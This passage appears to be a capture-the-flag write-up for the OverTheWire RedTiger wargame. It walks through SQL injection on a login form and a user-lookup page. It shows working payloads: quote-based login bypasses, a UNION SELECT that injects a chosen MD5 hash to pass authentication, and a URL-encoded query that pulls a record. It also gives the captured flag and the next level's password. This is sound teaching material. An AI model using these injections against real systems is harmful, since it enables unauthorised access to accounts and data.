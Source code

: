     ```mysql
    SELECT username, hashedpassword 
    FROM tablename 
    WHERE username = '[username]' AND hashedpassword = MD5('[password]');
    ```

* Try 6

  * **Username:** `' OR ''='`
  * **Password:** `') OR ''=''--`
  * **Message:** `Login failed!`
  * From this try I suspect that the md5 encryption is being done before the SQL query and not inside it, and that the comparison between the password in the DB to the one entered by the user is being done after the query.
  * This gave me the idea to make sure that a certain hashed string will be selected (even if not in the database) before comparing it to the one entered by the user. For that I used [md5decrypt.net]() to encrypt the phrase "password" into md5 (**5f4dcc3b5aa765d61d8327deb882cf99**), and used the `UNION` function to add this hash to the selected data.

* Try 7

  * **Username:** `' UNION SELECT '5f4dcc3b5aa765d61d8327deb882cf99', '5f4dcc3b5aa765d61d8327deb882cf99`
  * **Password:** `password`
  * **Message:** `Login successful!`



I received the flag (**ca5c3c4f0bc85af1392aef35fc1d09b3**) and the password for Level 5 (**the_stone_is_cold**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502203040861.png" alt="image-20200502203040861" style="border:1px solid black;" />



## Level 6

**URL:** https://redtiger.labs.overthewire.org/level6.php
**Target:** Get the first user in table level6_users with status 1

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502203406312.png" alt="image-20200502203406312" style="border:1px solid black;" />



```sql
SELECT username, email,3,4,5 
FROM level6_users 
WHERE user = 0 OR status = 1;
```

This is how I figured that admin is the first one with that status

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502204742351.png" alt="image-20200502204742351" style="border:1px solid black;" />

<center>?user=0%20OR%20status%20=%201%20LIMIT%201


